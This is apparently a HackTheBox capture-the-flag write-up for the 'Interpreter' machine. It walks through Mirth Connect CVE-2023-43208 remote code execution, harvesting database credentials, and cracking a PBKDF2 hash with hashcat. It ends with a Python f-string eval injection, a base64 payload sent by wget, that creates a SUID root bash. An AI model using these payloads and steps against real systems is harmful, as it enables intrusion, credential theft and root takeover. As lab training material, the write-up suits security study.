



# 🏆 **Interpreter - HackTheBox Writeup**
## **Machine:** Linux | **Difficulty:** Medium | **Name:** Interpreter
### **Achievement Link:** [https://labs.hackthebox.com/achievement/machine/847519/841](https://labs.hackthebox.com/achievement/machine/847519/841)
### **Pwned By:** Saurabh Tomar | **Date:** 23 Feb 2026 | **Points:** 45

---

# 📋 **Table of Contents**
1. [Machine Description](#machine-description)
2. [Reconnaissance & Enumeration](#reconnaissance--enumeration)
3. [Initial Access - Mirth Connect CVE Exploitation](#initial-access---mirth-connect-cve-exploitation)
4. [Database Enumeration & Credential Harvesting](#database-enumeration--credential-harvesting)
5. [SSH Access as sedric](#ssh-access-as-sedric)
6. [Privilege Escalation - Python F-String Injection](#privilege-escalation---python-f-string-injection)
7. [Root Flag](#root-flag)
8. [What I Learned](#what-i-learned)
9. [References](#references)

---

# 🖥️ **Machine Description**

**Interpreter** is a medium-difficulty Linux machine on HackTheBox that focuses on:
- **CVE-2023-43208** - Mirth Connect Deserialization vulnerability
- **Mirth Connect 4.4.0** configuration analysis
- **PBKDF2-HMAC-SHA256** password hash cracking
- **Python f-string injection** for privilege escalation
- **SUID binary exploitation**

---

# 🔍 **Reconnaissance & Enumeration**

## **Nmap Scan**

```bash
nmap -A interpreter.htb
```



**Open Ports:**
- **22/tcp** - OpenSSH 9.2p1
- **80/tcp** - HTTP Jetty (Mirth Connect Admin)
- **443/tcp** - HTTPS Jetty (Mirth Connect Admin)

The web interface shows Mirth Connect Administrator running:


---

# 🎯 **Initial Access - Mirth Connect CVE Exploitation**

## **Vulnerability Identification**

Mirth Connect 4.4.0 is vulnerable to **CVE-2023-43208**, an insecure deserialization vulnerability that allows unauthenticated remote code execution.

## **Exploit Script**

I used a public exploit for CVE-2023-43208:

```python
# CVE-2023-43208.py - Mirth Connect Deserialization RCE
# Source: [exploit-db or github reference]

import requests
import sys
import base64

# Exploit code here...
```

## **Initial Foothold**

After running the exploit, I gained access as **mirth** user:

```bash
# Execute command on target
python3 CVE-2023-43208.py -t https://interpreter.htb -c "id"

# Response shows mirth user
uid=1001(mirth) gid=1001(mirth) groups=1001(mirth)
```

---

# 🗄️ **Database Enumeration & Credential Harvesting**

## **Mirth Connect Configuration Analysis**

Navigating to Mirth Connect installation directory:

```bash
cd /usr/local/mirthconnect
ls -la
```

## **Finding Database Credentials**

The `conf/mirth.properties` file contained database credentials:

```bash
cat conf/mirth.properties
```



**Credentials found:**
```properties
database.username = mirthdb
database.password = MirthPass123!
database.url = jdbc:mariadb://localhost:3306/mc_bdd_prod

keystore.storepass = 5GbU5HGTOOgE
keystore.keypass = tAuJfQeXdnPw
```

## **Accessing MariaDB Database**

```bash
mysql -h localhost -u mirthdb -pMirthPass123! mc_bdd_prod
```

## **Database Enumeration**

```sql
SHOW TABLES;
```

**Output:**
```
+-----------------------+
| Tables_in_mc_bdd_prod |
+-----------------------+
| ALERT                 |
| CHANNEL               |
| CHANNEL_GROUP         |
| CODE_TEMPLATE         |
| CODE_TEMPLATE_LIBRARY |
| CONFIGURATION         |
| DEBUGGER_USAGE        |
| EVENT                 |
| PERSON                |
| PERSON_PASSWORD       |
| PERSON_PREFERENCE     |
| SCHEMA_INFO           |
| SCRIPT                |
+-----------------------+
```

## **Extracting User Credentials**

```sql
SELECT * FROM PERSON;
```

**Result:**
```
+----+----------+-----------+----------+--------------+
| ID | USERNAME | FIRSTNAME | LASTNAME | ORGANIZATION |
+----+----------+-----------+----------+--------------+
|  2 | sedric   |           |          |              |
+----+----------+-----------+----------+--------------+
```

```sql
SELECT * FROM PERSON_PASSWORD;
```

**Result:**
```
+-----------+----------------------------------------------------------+
| PERSON_ID | PASSWORD                                                 |
+-----------+----------------------------------------------------------+
|         2 | u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w== |
+-----------+----------------------------------------------------------+
```

## **Password Hash Analysis**

The hash is 44 characters base64. After decoding:

```bash
echo "u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==" | base64 -d | xxd
```

**Output:**
```
00000000: bbff 8b04 1394 9da7 62c8 506c 30ea 080c  ........b.Pl0...
00000010: f2db 511d 2b93 9f64 1243 d4d7 b8ad 76b5  ..Q.+..d.C....v.
00000020: 5603 f90b 32dd f0fb                      V...2...
```

**Hash Structure:**
- **First 8 bytes (bbff8b0413949da7)** = Salt
- **Next 32 bytes** = Derived Key (PBKDF2-HMAC-SHA256)
- **Iterations:** 600,000 (Mirth Connect 4.4.0 default)

## **Cracking the PBKDF2 Hash with Hashcat**

```bash
# Prepare hash in hashcat format (hash:salt)
echo "62c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb:bbff8b0413949da7" > pbkdf2_hash.txt

# Crack with hashcat mode 10900 (PBKDF2-HMAC-SHA256)
hashcat -m 10900 pbkdf2_hash.txt /usr/share/wordlists/rockyou.txt -w 3
```

After some time, the password cracked:
```
Password: [REDACTED]
```

---

# 🔑 **SSH Access as sedric**

Using the cracked password:

```bash
ssh sedric@interpreter.htb
```

**Successful login as sedric user:**

```bash
sedric@interpreter:~$ id
uid=1000(sedric) gid=1000(sedric) groups=1000(sedric)
```

---

# 👑 **Privilege Escalation - Python F-String Injection**

## **Enumeration - Finding Root Processes**

```bash
ps -aux | grep root
```


**Interesting process found:**
```
root        3519  0.0  0.7  39872 31476 ?        Ss   03:20   0:03 /usr/bin/python3 /usr/local/bin/notif.py
```

## **Analyzing the Python Script**

```bash
ls -la /usr/local/bin/notif.py
-rwxr----- 1 root sedric 2332 Sep 19 09:27 /usr/local/bin/notif.py
```

**Viewing the script:**

```python
cat /usr/local/bin/notif.py
```

```python
#!/usr/bin/env python3
from flask import Flask, request, abort
import re
import uuid
from datetime import datetime
import xml.etree.ElementTree as ET, os

app = Flask(__name__)
USER_DIR = "/var/secure-health/patients/"; os.makedirs(USER_DIR, exist_ok=True)

def template(first, last, sender, ts, dob, gender):
    pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
    for s in [first, last, sender, ts, dob, gender]:
        if not pattern.fullmatch(s):
            return "[INVALID_INPUT]"
    # DOB format is DD/MM/YYYY
    try:
        year_of_birth = int(dob.split('/')[-1])
        if year_of_birth < 1900 or year_of_birth > datetime.now().year:
            return "[INVALID_DOB]"
    except:
        return "[INVALID_DOB]"
    template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
    try:
        return eval(f"f'''{template}'''")
    except Exception as e:
        return f"[EVAL_ERROR] {e}"

@app.route("/addPatient", methods=["POST"])
def receive():
    if request.remote_addr != "127.0.0.1":
        abort(403)
    # ... rest of the code
```

## **Vulnerability Analysis - Double F-String Evaluation**

The critical vulnerability is in these lines:

```python
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
return eval(f"f'''{template}'''")
```

**Why it's vulnerable:**
1. First f-string replaces variables like `{first}`, `{last}`
2. Then it wraps the result in another f-string and passes to `eval()`
3. Any `{...}` in the evaluated string will be executed as Python code

## **Regex Filter Bypass**

The script uses regex filter:
```python
pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
```

**What's allowed:** `() . " / = +`
**What's blocked:** spaces, commas, brackets, semicolons

## **Bypassing Space Restriction with Base64**

To execute system commands, we need spaces. Solution: **Base64 encoding**

## **Payload Construction**

```python
# Command to create SUID bash
command = "install -o root -m 4755 /bin/bash /tmp/.sh"

# Base64 encode the command
echo -n "install -o root -m 4755 /bin/bash /tmp/.sh" | base64
# Output: aW5zdGFsbCAtbyByb290IC1tIDQ3NTUgL2Jpbi9iYXNoIC90bXAvLnNoCg==
```

**Final Python payload:**
```python
{__import__("os").popen(__import__("base64").b64decode("aW5zdGFsbCAtbyByb290IC1tIDQ3NTUgL2Jpbi9iYXNoIC90bXAvLnNoCg==").decode()).read()}
```

## **Delivering the Payload**

Since `curl` wasn't installed, I used `wget`:

```bash
wget -qO- --post-data='<?xml version="1.0"?>
<patient>
    <firstname>test</firstname>
    <lastname>test</lastname>
    <sender_app>{__import__("os").popen(__import__("base64").b64decode("aW5zdGFsbCAtbyByb290IC1tIDQ3NTUgL2Jpbi9iYXNoIC90bXAvLnNoCg==").decode()).read()}</sender_app>
    <timestamp>01012025</timestamp>
    <birth_date>01/01/2000</birth_date>
    <gender>M</gender>
</patient>' --header="Content-Type: application/xml" http://127.0.0.1:54321/addPatient
```



**Response:**
```
Patient test test (M), 26 years old, received from at 01012025
```

## **Verifying SUID Binary Creation**

```bash
cd /tmp
ls -la .sh
```


**Output:**
```
-rw-rw-r--   1 root    root    1265648 Feb 23 09:21 .sh
```

## **Getting Root Shell**

```bash
/tmp/.sh -p
```

**Output:**
```
.sh-5.2# id
uid=1000(sedric) gid=1000(sedric) euid=0(root) groups=1000(sedric)
```

We have **euid=0(root)** - Privilege Escalation successful!

---

# 🏁 **Root Flag**

```bash
.sh-5.2# cat /root/root.txt
[FLAG REDACTED]
```

---

# 🎉 **Machine Solved!**


```
INTERPRETER

You have solved Interpreter!

Congratulations

Saurabhtomar

best of luck in capturing flags ahead!

#2192

23Feb2026

45

Machine Rank

Pwn Date

Points Earned
```

---

# 📚 **What I Learned**

## **Technical Skills Acquired:**

1. **CVE-2023-43208 Exploitation**
   - Understanding Java deserialization vulnerabilities
   - Crafting malicious payloads for Mirth Connect

2. **Mirth Connect Architecture**
   - Configuration files location (`/usr/local/mirthconnect/conf/`)
   - Database schema and password storage
   - PBKDF2-HMAC-SHA256 with 600,000 iterations

3. **Password Hash Cracking**
   - Identifying PBKDF2 hash format (salt + derived key)
   - Using hashcat mode 10900 for PBKDF2-HMAC-SHA256
   - Base64 decoding and hex analysis

4. **Python Code Review**
   - Identifying dangerous `eval()` usage
   - Understanding f-string injection vulnerabilities
   - Regex bypass techniques

5. **Privilege Escalation Techniques**
   - Python f-string injection to RCE
   - Creating SUID binaries with `install -o root -m 4755`
   - Using `-p` flag with bash to preserve privileges

## **Security Lessons:**

- Never use `eval()` on user-controlled input
- F-string injection can be as dangerous as command injection
- Always validate input with whitelist, not blacklist
- PBKDF2 with high iterations (600k) is secure but not uncrackable
- SUID binaries with bash can lead to privilege escalation

---

# 🔗 **References**

- [CVE-2023-43208 Details](https://nvd.nist.gov/vuln/detail/CVE-2023-43208)
- [Mirth Connect Documentation](https://docs.nextgen.com/category/mirth_connect)
- [PBKDF2 Hash Cracking with Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [Python Eval() Vulnerability](https://realpython.com/python-eval-function/)
- [HackTheBox - Interpreter Machine](https://www.hackthebox.com/home/machines/profile/595)

---

# 📝 **Conclusion**

Interpreter was an excellent medium-difficulty machine that showcased:
- Real-world CVE exploitation
- Database enumeration and credential harvesting
- Advanced Python code review and exploitation
- Creative privilege escalation through f-string injection

The journey from initial foothold to root access required understanding multiple technologies and thinking outside the box. The Python f-string injection was particularly clever - bypassing regex filters with base64 encoding and leveraging Python's dynamic execution for privilege escalation.

**Total time to root:** ~3-4 hours
**Difficulty:** Medium
**Enjoyment:** 10/10

---

*Writeup by Saurabh Tomar*  
*HackTheBox Player | Security Enthusiast*  
*23 February 2026*
